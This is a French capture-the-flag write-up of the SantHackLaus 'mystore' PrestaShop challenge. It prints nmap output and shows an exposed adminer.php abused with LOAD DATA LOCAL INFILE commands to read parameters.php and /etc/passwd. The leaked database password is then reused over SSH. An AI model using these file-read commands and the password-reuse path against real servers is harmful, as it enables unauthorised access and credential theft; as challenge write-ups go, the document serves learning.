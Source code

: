 # Write Up SantHackLaus ! 



Yo tout le monde ! Le CTF SantHackLaus est fini et voici mon write up pour celui ci !
Petit rapel de l'existence de mon [serveur discord](https://discord.gg/2bwhtP7)
Juste je n'ai pas finis le chall car j'avais la flemme ou plutôt que je n'ai pas la patience nécessaire: à l'étape de l'éscalade de privilège j'ai ragé et tout arrêté. Je n'ai donc fais que le Part 1.

Alors voici la traduction (merci Google) de l'énoncé du challenge:

```
L'un de vos amis souhaite lancer sa boutique en ligne sur https://mystore.santhacklaus.xyz.
Vous l'avez rapidement informé des principes de base de la sécurité informatique et il vous assure que 
il a suivi tous vos conseils. Réalisez votre audit et montrez-lui que sa plateforme est
pas correctement fixé!
```

J'ai donc commencé par lancer un scan avec nmap sur mystore.santhacklaus.xyz
```
(nmap -A )

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 47:df:ea:a5:95:38:bb:0c:79:9e:40:ce:f7:20:15:a2 (RSA)
|   256 d6:d5:15:90:25:18:d0:0c:d9:d1:b0:33:7f:84:20:7e (ECDSA)
|_  256 62:fa:22:28:18:ad:c5:fa:8b:13:d4:fe:be:3b:f9:e9 (ED25519)
80/tcp  open  http     nginx
|_http-title: Did not follow redirect to https://mystore.santhacklaus.xyz/
443/tcp open  ssl/http nginx
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-robots.txt: 81 disallowed entries (15 shown)
| /*?order= /*?tag= /*?id_currency= /*?search_query=
| /*?back= /*?n= /*&order= /*&tag= /*&id_currency=
| /*&search_query= /*&back= /*&n= /*controller=addresses
|_/*controller=address /*controller=authentication
| http-title: myStore
|_Requested resource was https://mystore.santhacklaus.xyz/index.php
|_http-trane-info: Problem with XML parsing of /evox/about
| ssl-cert: Subject: commonName=mystore.santhacklaus.xyz
| Subject Alternative Name: DNS:mystore.santhacklaus.xyz
| Not valid before: 2019-12-02T11:14:43
|_Not valid after:  2020-03-01T11:14:43
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|   h2
|_  http/1.1
| tls-nextprotoneg:
|   h2
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.43 seconds
```

Il n'y a rien d'interessant, continuons sur l'énumération du serveur web, j'ai d'abord testé plusieur vulnérabilité sur Pretashop mais rien ne marchais.
J'ai donc essayer de fuzz d'abord avec medium directory wordlist. Je ne trouve rien. Là dégouté je laisse tombé le chall puis y reviens demain.
Je tente un peu au hasard common directory wordlist et la je trouve un truc interessante: "adminer.php". Adminer est un outil d'administration ph et SQL (encore merci Google).
Ce qui est interessant ici c'est que nous pouvons nous connecter à n'importe quel serveur MySQL. Google nous sauve encore "Free Hosting MySQL".
On crée donc un serveur SQL puis on se connecte depuis adminer dessus. 

A partir de la on peut lire n'importe quel fichier dont on a le droit de lecture avec les commandes SQL suivantes:
```
        load data local infile 'la/votre/file'
        into table truc
        fields terminated by "\n"
```

On sait que c'est du Pretashop et je me suis documenté dessus sur internet et le fichier app/config/parameters.php est très interessant 
on lance donc:
```
        load data local infile 'app/config/parameters.php'
        into table truc
        fields terminated by "\n"
```

Un truc nous interesse tout d'un coup 
```
'database_password' => 'KA6$g@Tx0{(Si4bR3DT4'
```
On a un mot de passe mais pas de user je test admin, ça marche pas, coup de rage je vais faire une partie de foot avec mon petit frère et je reviens.
La je fais un peu de pwn (je tentais le String Oriented Programming pour les curieux ) puis j'ai une idée que j'aurai du avoir plus tôt : Normalement c'est un reflexe ! J'essaie de récuperer /etc/passwd

```
        load data local infile '/etc/passwd'
        into table truc
        fields terminated by "\n"
```

Ici je me connecte a la base SQl en localhost depuis Adminer avec un username que l'on voit dans /etc/passwd : "john" et le mot de passe trouvé avant : "KA6$g@Tx0{(Si4bR3DT4"
Je trouve rien d'interessant. Je rage encore. Je reviens après et je me rappelle que le port 22 était ouvert en SSH !! Je test et oui !! Il avait utilisé le même mot de passe ! 

````cat flag.txt```

Et la le plaisir de voir aparaître le flag: SANTA{That-W4Z/a/C0ol-CV3!}
